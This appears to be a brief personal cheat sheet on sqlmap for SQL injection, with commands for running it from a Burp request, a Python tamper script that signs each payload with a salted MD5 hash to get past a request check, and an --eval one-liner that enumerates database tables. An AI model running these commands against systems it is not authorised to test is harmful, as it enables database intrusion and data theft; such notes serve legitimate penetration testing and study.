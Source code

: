 # sqlmap
#sqlmap #sqli #sqlinjection

1. "Export" request from Burp (copy-paste) to `request`
2. `sqlmap -r request`
3. Profit.

## Tamper scripts
``sqlmap -u "<url>" --tamper=<name-of-temper-file> -p payload --skip-urlencode``

```
#!/usr/bin/env python

import re
import hashlib
from urllib.parse import quote_plus

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.HIGHEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    salt="<salt>"
    str2hash = salt + payload
    result = hashlib.md5(str2hash.encode()).hexdigest()
    
    retVal = quote_plus(payload) + "&h=" + result 
    return retVal
```

## Eval
Same but faster can be achieved with
`sqlmap -r req.req --eval="import hashlib ; h=hashlib.md5(('<salt>'+order).encode('utf-8')).hexdigest()"  --batch --tables --threads=10`